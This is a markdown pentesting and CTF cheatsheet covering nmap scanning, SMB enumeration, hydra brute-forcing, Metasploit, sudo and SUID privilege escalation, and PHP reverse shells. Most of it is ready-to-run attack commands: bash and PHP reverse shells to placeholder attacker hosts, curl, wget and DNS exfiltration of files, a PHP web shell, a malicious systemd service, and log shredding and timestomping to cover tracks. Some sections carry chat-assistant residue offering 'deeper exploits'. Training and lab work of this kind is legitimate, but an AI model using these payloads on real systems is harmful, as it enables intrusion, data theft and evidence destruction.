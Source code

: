 # Boot2Root Cheatsheet


## **Enumeration**

<details>
  <summary>
    
### Nmap Network Scanning

  </summary>

```nmap -A -sC -sV -oN nmap.txt IP```


## Most Common Commands for Pentesters & Bug Hunters
- **Full Network Recon (Aggressive Scan with OS & Version Detection):**
  ```bash
  nmap -A -T4 192.168.1.1
  ```
- **Quick Scan of Most Common Ports:**
  ```bash
  nmap -F 192.168.1.1
  ```
- **Full Port Scan + Service Detection:**
  ```bash
  nmap -p- -sV 192.168.1.1
  ```
- **Detect Live Hosts in a Network:**
  ```bash
  nmap -sn 192.168.1.0/24
  ```
- **Scan for Vulnerabilities (NSE Scripts):**
  ```bash
  nmap --script vuln 192.168.1.1
  ```
- **Bypass Firewall & Stealth Scan:**
  ```bash
  nmap -sS -T3 -D RND:10 192.168.1.1
  ```

## Basic Scans
- **Scan a single target:**  
  `nmap 192.168.1.1`
- **Scan multiple targets:**  
  `nmap 192.168.1.1 192.168.1.2`
- **Scan an entire subnet:**  
  `nmap 192.168.1.0/24`
- **Scan from a file list:**  
  `nmap -iL targets.txt`
- **No ping scan (for firewalled hosts):**  
  `nmap -Pn 192.168.1.1`

## Port Scanning
- **Scan all 65,535 ports:**  
  `nmap -p- 192.168.1.1`
- **Scan specific ports:**  
  `nmap -p 22,80,443 192.168.1.1`
- **Scan a port range:**  
  `nmap -p 1-1000 192.168.1.1`
- **Scan top 1000 most common ports:**  
  `nmap --top-ports 1000 192.168.1.1`

## Scan Techniques
- **TCP SYN scan (stealthy, default for root):**  
  `nmap -sS 192.168.1.1`
- **TCP Connect scan (for non-root users):**  
  `nmap -sT 192.168.1.1`
- **UDP scan:**  
  `nmap -sU 192.168.1.1`
- **Aggressive scan (OS, versions, scripts, traceroute):**  
  `nmap -A 192.168.1.1`
- **Scan with OS detection:**  
  `nmap -O 192.168.1.1`

## Service & Version Detection
- **Detect running services & versions:**  
  `nmap -sV 192.168.1.1`
- **Aggressive version detection:**  
  `nmap -sV --version-intensity 5 192.168.1.1`

## Firewall Evasion & Stealth
- **Change scan timing (1-5, slow to fast):**  
  `nmap -T4 192.168.1.1`
- **Use decoys to hide real IP:**  
  `nmap -D RND:10 192.168.1.1`
- **Spoof source IP:**  
  `nmap -S 192.168.1.100 192.168.1.1`
- **Fragment packets to bypass filters:**  
  `nmap -f 192.168.1.1`
- **Use a custom MAC address:**  
  `nmap --spoof-mac 00:11:22:33:44:55 192.168.1.1`

## Nmap Scripting Engine (NSE)
- **List available scripts:**  
  `nmap --script-help=default`
- **Scan for vulnerabilities:**  
  `nmap --script vuln 192.168.1.1`
- **Scan for common exploits:**  
  `nmap --script exploit 192.168.1.1`
- **Scan for web vulnerabilities:**  
  `nmap --script=http-vuln* 192.168.1.1`
- **Detect open directories:**  
  `nmap --script http-enum 192.168.1.1`

## Saving & Exporting Scan Results
- **Save results in normal text format:**  
  `nmap -oN scan.txt 192.168.1.1`
- **Save results in XML format:**  
  `nmap -oX scan.xml 192.168.1.1`
- **Save results in all formats:**  
  `nmap -oA scan_results 192.168.1.1`
- **View output in grep-friendly format:**  
  `nmap -oG scan.gnmap 192.168.1.1`

## Specialized Scans
- **Scan for live hosts only:**  
  `nmap -sn 192.168.1.0/24`
- **Detect SMB vulnerabilities:**  
  `nmap --script smb-vuln* -p 445 192.168.1.1`
- **Enumerate SNMP information:**  
  `nmap -sU -p 161 --script=snmp-info 192.168.1.1`
- **Brute-force FTP login:**  
  `nmap --script=ftp-brute -p 21 192.168.1.1`



</details>






<details>
  <summary>

  ### Common Ports and Vulnerabilities Cheat Sheet

  </summary>

## Port Ranges
- **Well-Known Ports (0-1023):** Reserved for system processes and well-known services.
- **Registered Ports (1024-49151):** Assigned by IANA for user applications.
- **Dynamic/Private Ports (49152-65535):** Used for temporary or custom connections.

## Commonly Used Ports & Associated Services
| Port | Service | Description | Common Vulnerabilities |
|------|---------|-------------|------------------------|
| 21   | FTP     | File Transfer Protocol | Anonymous login, brute-force attacks, clear-text transmission |
| 22   | SSH     | Secure Shell | Weak credentials, outdated versions, brute-force |
| 23   | Telnet  | Unencrypted Remote Login | Clear-text transmission, credential theft |
| 25   | SMTP    | Simple Mail Transfer Protocol | Open relays, spam abuse |
| 53   | DNS     | Domain Name System | DNS spoofing, cache poisoning, amplification attacks |
| 80   | HTTP    | Web Traffic | XSS, SQL Injection, Directory Traversal |
| 110  | POP3    | Email Retrieval | Clear-text credentials, brute-force |
| 135  | RPC     | Remote Procedure Call | DCOM/RPC exploits, lateral movement |
| 139  | NetBIOS | Windows File Sharing | SMB relay attacks, enumeration |
| 143  | IMAP    | Internet Message Access Protocol | Brute-force, credential leaks |
| 443  | HTTPS   | Secure Web Traffic | SSL vulnerabilities (Heartbleed, TLS downgrade) |
| 445  | SMB     | Windows File Sharing | EternalBlue, SMBGhost, WannaCry |
| 3306 | MySQL   | Database | SQL injection, weak credentials |
| 3389 | RDP     | Remote Desktop Protocol | Brute-force, BlueKeep exploit |

## Common Vulnerabilities by Service Type
### Web Services (80, 443)
- SQL Injection
- Cross-Site Scripting (XSS)
- Directory Traversal
- Remote Code Execution (RCE)

### File Transfer & Sharing (21, 139, 445)
- Anonymous authentication
- SMB relay attack
- Ransomware infection via SMB vulnerabilities

### Email Services (25, 110, 143)
- Open relay abuse
- Phishing & spoofing attacks
- Credential brute-forcing

### Remote Access (22, 23, 3389)
- Weak authentication
- Brute-force attacks
- Man-in-the-middle (MITM) attacks

</details>

























<details>
  <summary>


  ### Find Directories 
  </summary>

# Finding Web Directories - Cheat Sheet

### 1. **Using `gobuster`**
- **Basic command:**
  ```bash
  gobuster dir -u http://10.10.195.158 -w /home/iftx/Desktop/Hacking/Recon/wordlist/common.txt
  ```

### 2. **Using `ffuf` (Fuzz Faster U Fool)**
- **Basic command:**

```bash
  ffuf -u http://10.10.195.158/FUZZ -w /home/iftx/Desktop/Hacking/Recon/wordlist/common.txt
  ```

```bash
  ffuf -u https://example.com/FUZZ -w /path/to/wordlist.txt -t 5 -p 0.5 -e .php,.html,.txt -fc 403,404

 ```




### 3. **Using `dirb` (Directory Buster)**
- **Basic command:**
  ```bash
  dirb http://10.10.195.158 /home/iftx/Desktop/Hacking/Recon/wordlist/common.txt
  ```

### 4. **Using `nikto` for Web Scanning**
- **Basic command:**
  ```bash
  nikto -h http://10.10.195.158
  ```

### 5. **Using `wfuzz` (Web Fuzzer)**
- **Basic command:**
  ```bash
  wfuzz -c -z file,/home/iftx/Desktop/Hacking/Recon/wordlist/common.txt -u http://10.10.195.158/FUZZ
  ```

### 6. **Using Nmap with `http-enum` Script**
- **Command:**
  ```bash
  nmap --script http-enum -p 80 10.10.195.158
  ```



</details>

## Web Exploitation

<details>
  <summary>

  ### **SMB Enumeration Cheat Sheet**
    
  </summary>


#### **1️⃣ Nmap SMB Enumeration**
```bash
nmap --script smb-enum-shares,smb-enum-users -p 139,445 <target-IP>
```
- Enumerates **SMB users & shares**.

```bash
nmap --script smb-vuln* -p 139,445 <target-IP>
```
- Checks **SMB vulnerabilities**.

---

#### **2️⃣ smbclient - Access SMB Shares**
```bash
smbclient -L //<target-IP> -U ""
```
- Lists available shares **without authentication**.

```bash
smbclient //<target-IP>/share -U user
```
- Connects to a **specific share**.

---

#### **3️⃣ smbmap - Check Share Access**
```bash
smbmap -H <target-IP>
```
- Checks **read/write access**.

```bash
smbmap -H <target-IP> -R
```
- Recursively **lists all files**.

---

#### **4️⃣ CrackMapExec (CME) - SMB Enumeration**
```bash
cme smb <target-IP> --shares
```
- Lists **shared folders**.

```bash
cme smb <target-IP> -u user -p password --shares
```
- Enumerates shares **with credentials**.

---

#### **5️⃣ Enum4linux - SMB Enumeration**
```bash
enum4linux -a <target-IP>
```
- Performs **all** enumeration techniques.

```bash
enum4linux -U <target-IP>   # List users  
enum4linux -S <target-IP>   # List shared folders  
```

---

#### **6️⃣ rpcclient - Windows RPC Services**
```bash
rpcclient -U "" <target-IP>
```
- Connects to **SMB RPC services** without authentication.

```bash
rpcclient -U user <target-IP>
> enumdomusers
```
- Enumerates **domain users**.

---

### ✅ **Best SMB Enumeration Workflow**
1️⃣ **Check open SMB ports** → `nmap -p 139,445 <IP>`  
2️⃣ **Enumerate shares & users** → `nmap --script smb-enum-shares,smb-enum-users -p 139,445 <IP>`  
3️⃣ **Try accessing shares** → `smbclient -L //<IP> -U ""`  
4️⃣ **Check permissions** → `smbmap -H <IP>`  
5️⃣ **Look for vulnerabilities** → `nmap --script smb-vuln* -p 139,445 <IP>`  

🚀 **Use these tools responsibly for pentesting & bug bounty engagements!**


</details>








<details>
<summary>
  
  ### **Login bruteforcing**

</summary>

**Brute-Forcing SquirrelMail Login**


Hydra Command:
```bash
hydra -l milesdyson -P log1.txt 10.10.195.158 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=SquirrelMail - Unknown user or password incorrect" -V -F
```
Medusa Command:
```bash
medusa -h 10.10.195.158 -u milesdyson -P log1.txt -M http -m POST:/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1
```
Both tools brute-force the login for SquirrelMail using a username (milesdyson) and a password list (log1.txt) to find the correct credentials.




 ### **ssh server**
```bash
hydra -l user_ name -P /home/iftx/Desktop/Room/wordlist/rockyou.txt 10.10.181.27 ssh

```
  
</details>


## Metasploit

<details>
  <summary>
   Metasploit Exploitation (Ghostcat - CVE-2020-1938)

  </summary>

1. Launch Metasploit

 `msfconsole`

2. Search for AJP Exploits

   `msf6 > search ajp`
   
```
Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/multi/http/tomcat_jsp_upload_bypass  2020-02-24       excellent  Yes    Tomcat RCE via JSP Upload Bypass
```
3. Select and Configure the Exploit

   `msf6 > use 0 `
   

`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > show options`


```
Module options (exploit/multi/http/tomcat_jsp_upload_bypass):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s)
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   VHOST                       no        HTTP server virtual host
```


`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > set RHOSTS 10.10.228.82`


`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > set RPORT 8009`


`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > run`


skyfuck:8730281lkjlkjdqlksalks


  
</details>


## Privilege Escalation


<details>
  <summary>

  
  ### Privilege Escalation via Sudo Vi (CVE-2019-14287)
  
  </summary>
  
### **1. Checking Sudo Permissions**
Ran `sudo -l` and found:
```bash
User gwendoline may run: (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```
→ **Vi can be executed as any user except root** (`!root`) without a password.

---

### **2. Exploiting Vi to Gain Root Shell**
#### **Method 1: User ID Manipulation (CVE-2019-14287)**
```bash
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```
- **Why it works**:  
  `-u#-1` triggers an integer underflow, resolving to **UID 0 (root)** despite `!root` restriction.

#### **Method 2: Vi Shell Escape**
Inside Vi:
```vim
:!/bin/bash
```
→ Spawns a **root shell** (GTFOBins technique).

---

### **3. Why This Works**
| Vulnerability | Impact | Tool Reference |
|--------------|--------|----------------|
| **CVE-2019-14287** | Bypasses `!root` restriction via `-u#-1` trick | [Sudo Security Advisory](https://www.sudo.ws/alerts/unescape_overflow.html) |
| **Vi Shell Escape** | Arbitrary command execution as root | [GTFOBins: vi](https://gtfobins.github.io/gtfobins/vi/) |
| **NOPASSWD Misconfiguration** | No password required for escalation | |

---

### **4. Mitigation**
1. **Update Sudo**: Patch to version **1.8.28+** to fix CVE-2019-14287.
2. **Restrict Sudoers**:
   ```bash
   # Replace:
   (ALL, !root) NOPASSWD: /usr/bin/vi
   # With:
   (gwendoline) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
   ```
3. **Audit**: Regularly run `sudo -l` for all users.

---

### **5. Impact: Critical (Root Access)**
- **Proof of Concept**:
  ```bash
  whoami  # Output: root
  cat /root/root.txt
  ```

</details>

<details>
  <summary>
    
### Privilege Escalation via `sudo wget` Exploitation
    
  </summary>


#### **1. Checking Sudo Permissions**  
- Ran `sudo -l` and found:  
  ```bash
  User jessie may run: (root) NOPASSWD: /usr/bin/wget
  ```
  → **`wget` can be executed as root without a password.**  

#### **2. Exploiting `wget` to Read Root Files**  
- **Method 1**: Directly read `/root/root_flag.txt`:  
  ```bash
  sudo wget -i /root/root_flag.txt  # Uses `-i` to read the file
  ```
- **Method 2**: Exfiltrate the file via HTTP (if `-i` fails):  
  ```bash
  sudo wget --post-file=/root/root_flag.txt http://ATTACKER_IP:8000
  ```
  → **Check HTTP server logs for the flag.**  

#### **3. Why This Works**  
- **GTFOBins**: `wget` with `sudo` can read arbitrary files (`-i` or `--post-file`).  
- **No Password**: `NOPASSWD` allows privilege escalation without authentication.  

#### **4. Mitigation**  
- **Restrict `sudo`**: Avoid `NOPASSWD` for commands like `wget`.  
- **Audit**: Regularly check `sudo -l` for all users.  

**Impact**: Critical (root access via file read/write).  
**Tool Reference**: [GTFOBins: wget](https://gtfobins.github.io/gtfobins/wget/).  

--- 

**Next Steps**:  
- Try **writing files** (e.g., `/etc/sudoers`) for a full root shell.  
- Use `sudo wget` to fetch and execute a reverse shell script.  

Need a deeper exploit? Let me know! 🔥
</details>

<details>
  <summary>

    
  ### Privilege Escalation via Misconfigured setuid Binary (systemctl)
    
  </summary>



## Exploit Steps

1. Find setuid binaries owned by root:

```bash
find / -user root -perm -4000 -print 2>/dev/null

```
If /bin/systemctl has setuid, it can be abused.

2. Create a malicious service (root.service):

```
ini
Copy
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'

[Install]
WantedBy=multi-user.target

```

3. Host the service & transfer to target:
Start HTTP server:

```python -m http.server 80```
On target, download:


```wget http://ATTACKER_IP/root.service -O /tmp/root.service```

4. Enable & start the service:
```
systemctl enable /tmp/root.service  # Uses setuid to gain root
systemctl start root

```

5. Get root shell:
Attacker listens:

```
nc -lvnp PORT
```
Service executes reverse shell as root.

### Mitigation
Remove setuid from systemctl:


chmod u-s /bin/systemctl
Restrict service file creation in /tmp (use noexec)

Monitor for unusual service activations

</details>


## Shell
<details>
  <summary>
    
### Automated File Reading with find + while Loop

  </summary>

If cat is disabled but you have bash or sh, you can read all files recursively:

```bash
find / -type f -name "*.txt" -exec sh -c 'echo "File: {}"; while IFS= read -r line; do echo "$line"; done < {}' \; 2>/dev/null
```
```bash
find / -type f -name user.txt -ls 2>/dev/null
```
This will list and print all .txt files on the system.

Modify -name "*.txt" to target other extensions (e.g., *.php, *.bak).
</details>

<details>
  <summary>

    
  ### **Ultimate Linux Post-Exploitation & Flag Hunting Guide**  

  </summary>


---

*(CTF | Bug Bounty | Pentest | Red Team)*  

## **🔍 1. Finding Flags/Sensitive Files**  
### **A. Quick File Searches**
```bash
# Find flags by name/extension  
find / -type f \( -name "*flag*" -o -name "*.txt" -o -name "*.conf" \) 2>/dev/null  

# Find recently modified files (last 24h)  
find / -type f -mtime -1 2>/dev/null  

# Find hidden files  
find / -name ".*" -ls 2>/dev/null  
```

### **B. Content Hunting (Passwords, API Keys)**
```bash
# Search for common patterns  
grep -rniE "password|api[_-]?key|jwt|secret|flag{" /etc /home /var/www 2>/dev/null  

# Database credentials  
grep -rni "mysql://\|postgresql://" / 2>/dev/null  
```

### **C. Critical Paths**
| Path                 | Purpose                          |
|----------------------|----------------------------------|
| `/home/*/.ssh/`      | SSH private keys                 |
| `/var/www/html/`     | Web app configs (Bug Bounty)     |
| `/etc/shadow`        | Password hashes (Pentest)        |
| `/opt/backups/`      | Database/config backups          |

---

## **🚫 2. Bypassing Restrictions**  
### **A. Read Files Without `cat`**
```bash
# Basic alternatives  
less /path/file      # Interactive  
tail -n 50 /path/file  # Last 50 lines  

# Scripting  
python3 -c "print(open('/etc/passwd').read())"  
perl -pe 'print' /path/file  

# Binary/encoded  
strings /path/file   # Extract text  
base64 /path/file | base64 -d  # Encode→Decode  
```

### **B. Wildcard Bypass**
```bash
/bin/?at /path/file   # Tries /bin/cat, /bin/bat  
```

### **C. Stealthy Exfiltration**
```bash
# DNS (Attacker: `sudo tcpdump -i eth0 udp port 53`)  
xxd -p /path/file | while read line; do dig "$line.domain.com"; done  

# HTTP (Quick)  
curl -X POST --data-binary @/path/file http://attacker.com  
```

---

## **🛠️ 3. Privilege Escalation**  
### **A. Quick Checks**
```bash
# Sudo abuse  
sudo -l  # Check ALL/NOPASSWD  

# SUID/SGID binaries  
find / -perm -4000 -o -perm -2000 2>/dev/null  

# Writable cron jobs  
ls -la /etc/cron* /var/spool/cron  
```

### **B. Kernel Exploits**
```bash
uname -a  # Check version  
searchsploit linux kernel 5.4.0  # Find exploits  
```

### **C. Automated Tools**
```bash
# LinPEAS (Full audit)  
curl -L https://linpeas.sh | sh  

# LinEnum (Quick enum)  
./LinEnum.sh -t  
```

---

## **📜 4. Decoding Data**  
```bash
# Base64  
echo "RkxBR3tleGFtcGxlfQ==" | base64 -d  

# Hex  
echo "464C4147" | xxd -r -p  

# ROT13  
echo "SYNT" | tr 'A-Za-z' 'N-ZA-Mn-za-m'  
```

---

## **🚪 5. Shell Escape**  
```bash
# Spawn TTY shell  
python3 -c 'import pty; pty.spawn("/bin/bash")'  

# Reverse shell  
bash -c 'bash -i >& /dev/tcp/10.0.0.1/443 0>&1'  
```

---

## **🧹 6. Covering Tracks**  
```bash
# Clear logs  
shred -u /var/log/auth.log  

# Timestomp  
touch -r /etc/passwd /root/.bash_history  
```

---

## **🎯 Pro Tips**  
- **CTFs**: Check `/tmp/`, `/opt/`, and home directories.  
- **Bug Bounty**: Hunt for `.env`, `config.php.bak`.  
- **Pentest**: Always check `sudo -l` and SUID binaries first.  

---

### **📥 One-Pager Cheatsheet**  
```markdown
1. Find flags: `find / -name "*flag*" 2>/dev/null`  
2. Read files: `less /path/file` or `python3 -c "print(open('f').read())"`  
3. PrivEsc: `sudo -l`, `find / -perm -4000`  
4. Decode: `echo "BASE64" | base64 -d`  
5. Shell: `python3 -c 'import pty; pty.spawn("/bin/bash")'`  
```


</details>


<details>
  <summary>

  ### Detailed Guide: RSA Private Key 

  </summary>


## **1. Introduction to RSA Private Keys**
An **RSA private key** is a cryptographic key used for secure authentication, typically in SSH, SSL/TLS, and encrypted communications. If exposed, it can lead to **unauthorized system access**, making it a critical finding in security assessments.

### **Key Characteristics**
- **Format**: PEM (Base64-encoded, with `-----BEGIN RSA PRIVATE KEY-----` header).
- **Usage**: SSH logins, decrypting data, or signing certificates.
- **Common Locations**:
  - Web server leaks (`/id_rsa`, `/backup/id_rsa.bak`).
  - Git repository exposures (`.git/config`, `~/.ssh/`).
  - Misconfigured cloud storage (AWS S3, GCP buckets).

---

## **2. Exploitation in Penetration Testing**
### **Step 1: Identify & Validate the Key**
- **Check if the key is valid**:
  ```bash
  openssl rsa -in id_rsa -check
  ```
- **If passphrase-protected**, crack it using:
  ```bash
  ssh2john id_rsa > id_rsa.hash  
  john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
  ```

### **Step 2: Use the Key for SSH Access**
- **Restrict permissions** (SSH requires strict file modes):
  ```bash
  chmod 600 id_rsa
  ```
- **Attempt SSH login**:
  ```bash
  ssh -i id_rsa user@target_ip
  ```
- **Common Usernames** (if unknown):
  ```bash
  for user in $(cat users.txt); do ssh -i id_rsa $user@target_ip -o ConnectTimeout=2; done
  ```

### **Step 3: Privilege Escalation**
- Check `sudo -l` for misconfigurations (as in your `wget` case).
- Look for **writable cron jobs**, **SUID binaries**, or **kernel exploits**.

---

## **3. Bug Bounty Implications**
### **Where to Find Exposed Keys**
- **GitHub/GitLab Repos**: Search for `-----BEGIN RSA PRIVATE KEY-----`.
- **Exposed Backups**: `/backup`, `/www/backup`, `.bak` files.
- **Logs & Environment Variables**: Check `/proc/self/environ`, error logs.

### **Impact**
- **Critical Severity**: Unauthorized server access → data breaches.
- **Report Template**:
  ```
  Title: Exposed RSA Private Key Leading to Server Compromise  
  Description: A private SSH key was found at [URL], allowing unauthorized access to [service].  
  Proof: [Attach key + successful SSH login screenshot]  
  Remediation: Revoke the key, enforce key rotation, disable passwordless auth.  
  ```

---

## **4. CTF-Specific Techniques**
### **Common CTF Challenges**
1. **Hidden Key in Web Source**  
   - Use `curl` or `view-source:` to find keys in HTML comments.
2. **Steganography in Images**  
   - Extract keys using `steghide`, `binwalk`, or `strings`.
3. **Abusing Weak Permissions**  
   - If you get a low-priv shell, check `/home/*/.ssh/` for keys.

### **Automated Tools**
- **TruffleHog**: Scans Git repos for secrets.
- **GitLeaks**: Detects exposed keys in version control.
- **ssh-audit**: Checks SSH server vulnerabilities.

---

## **5. Defensive Measures (For Admins)**
### **Preventing Key Leaks**
- **Never store keys in web directories**.
- **Use SSH certificates** instead of raw keys.
- **Rotate keys periodically** and revoke compromised ones.

### **Hardening SSH**
```ini
# /etc/ssh/sshd_config
PermitRootLogin no
PasswordAuthentication no
PubkeyAuthentication yes
AuthorizedKeysFile .ssh/authorized_keys
```

---

## **6. Legal & Ethical Considerations**
- **Penetration Testing**: Only test authorized systems.
- **Bug Bounty**: Follow the program’s rules (don’t exfiltrate data).
- **CTFs**: Keys are intentionally placed—don’t attack real systems.

---

## **7. Conclusion**
- **Pentest**: Use exposed keys for initial access → escalate privileges.
- **Bug Bounty**: Report exposed keys immediately (critical finding).
- **CTF**: Often a shortcut to flags—check backups, source code, and logs.

### **Final Command Cheatsheet**
```bash
# Test key validity
openssl rsa -in id_rsa -check

# Crack passphrase-protected key
ssh2john id_rsa > hash && john --wordlist=rockyou.txt hash

# SSH login attempt
chmod 600 id_rsa && ssh -i id_rsa user@target
```

</details>

<details>
  <summary>

  ### Advanced PHP Reverse Shells & TTY Stabilization

  </summary>



---

*(Pentest/Bug Bounty/CTF Field Manual)*  

## **1. PHP Reverse Shell Techniques**
### **A. Basic Reverse Shell (One-Liner)**
```bash
php -r '$sock=fsockopen("ATTACKER_IP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```
**Why Use This?**  
- Minimal footprint, works on most PHP-enabled systems  
- Bypasses restrictive environments where full shells are blocked  

### **B. Advanced Proc_Open Variant**
```bash
php -r '$sock=fsockopen("10.0.0.1",4444);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```
**Advantages:**  
- More reliable for complex interactions  
- Better handling of I/O streams  

### **C. Web Shell Integration**
```php
<?php system($_GET['cmd']); ?>
```
**Deployment:**  
1. Upload to vulnerable web directory (e.g., `/uploads/shell.php`)  
2. Execute commands via:  
   ```http
   http://target.com/uploads/shell.php?cmd=whoami
   ```

---

## **2. Listener Configuration**
### **Netcat (Basic)**
```bash
nc -nvlp 4444
```
**Pro Tip:** Use `-v` for verbose mode to confirm connections.

### **Multi-Handler (Recommended)**
```bash
# In Metasploit:
msf6 > use multi/handler
msf6 > set payload php/reverse_php
msf6 > set LHOST YOUR_IP
msf6 > set LPORT 4444
msf6 > exploit
```
**Benefits:**  
- Auto-handles session restoration if disconnected  
- Built-in logging  

---

## **3. TTY Stabilization Methods**
### **A. Python (Gold Standard)**
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
**Follow-up:**  
```bash
CTRL+Z  # Background the shell
stty raw -echo; fg  # Enable raw mode
export TERM=xterm  # Enable full terminal features
```

### **B. Alternatives When Python Unavailable**
| Command | Use Case |
|---------|----------|
| `script -qc /bin/bash /dev/null` | Systems with `script` binary |
| `socat exec:'bash -li' pty,stderr,setsid,sigint,sane` | Requires socat installation |
| `perl -e 'exec "/bin/bash";'` | Perl-based systems |

### **C. Full Upgrade Sequence**
1. Spawn TTY  
2. Set terminal type:  
   ```bash
   export TERM=xterm-256color
   ```
3. Fix stty:  
   ```bash
   stty rows 55 columns 238  # Adjust to your terminal size
   ```

---

## **4. OPSEC Considerations**
### **A. Clean Execution**
```bash
# Disable history in current session
unset HISTFILE
```

### **B. Log Evasion**
```bash
# Overwrite PHP error logs after exploit
echo "" > /var/log/apache2/error.log
```

### **C. Traffic Obfuscation**
```bash
# Encrypted reverse shell (OpenSSL)
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect ATTACKER_IP:4444 > /tmp/s; rm /tmp/s
```

---

## **5. Troubleshooting Guide**
| Issue | Solution |
|-------|----------|
| **Shell dies immediately** | Use `while true; do nc -lvp 4444; done` on listener |
| **No Python/socat** | Try `awk 'BEGIN {system("/bin/bash")}'` |
| **Firewall blocking** | Use common ports (80, 443) or ICMP/DNS tunneling |

---

## **6. Real-World Applications**
### **Bug Bounty**  
- Use in blind RCE scenarios (e.g., Log4j exploits)  
- Combine with SSRF to pivot internally  

### **CTF Challenges**  
- Bypass restricted shells via PHP wrappers:  
  ```bash
  php -r "include('data://text/plain,<?php system(\$_GET[\"cmd\"]) ?>');"
  ```

### **Pentest Engagements**  
- Chain with credential theft:  
  ```bash
  php -r 'echo file_get_contents("/etc/passwd");'
  ```

---

## **7. Reference Cheatsheet**
```markdown
1. Start Listener:    `nc -nvlp 4444`
2. PHP Shell:        `php -r '$s=fsockopen("IP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'`
3. Stabilize:        `python3 -c 'import pty; pty.spawn("/bin/bash")'`
4. Full Upgrade:     `export TERM=xterm; stty raw -echo; fg`
```

---

**Pro Tip:** Bookmark this guide and save the cheatsheet as `shells.txt` in your toolkit. For a **PDF version** with clickable TOC, reply "PDF please"!  

Need Windows reverse shell equivalents? Let me know. 🚀
</details>
